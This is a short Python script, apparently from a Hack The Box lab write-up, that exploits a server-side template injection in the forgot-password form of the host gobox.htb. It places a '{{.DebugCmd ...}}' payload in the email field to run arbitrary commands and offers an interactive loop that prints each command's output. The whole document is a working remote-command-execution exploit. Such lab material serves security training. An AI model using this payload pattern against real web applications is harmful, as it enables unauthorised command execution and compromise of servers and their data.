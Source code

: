```
import requests
import re
from html import unescape

def ssti(url,command):
    command = command.replace('"', '\\"')
    payload = '{{.DebugCmd "' + str(command) + '"}}@email.com'
    data = {
        "email": payload,
    }
    r = requests.post(url, data=data)
    capture_re = re.compile(r"Email Sent To: (.*?)\s+<button class", re.DOTALL)
    result = capture_re.search(r.text).group(1)
    result = unescape(unescape(result))
    output = result.replace("@email.com","").strip()
    print(output)

def main(url):
    while True:
        command = input("Command: ")
        try:
            ssti(url,command)
        except Exception as e:
            print(e)
            pass
        if command.lower() == "exit":
            break

if __name__ == '__main__':
    url = "http://gobox.htb:8080/forgot/"
    main(url) 
```
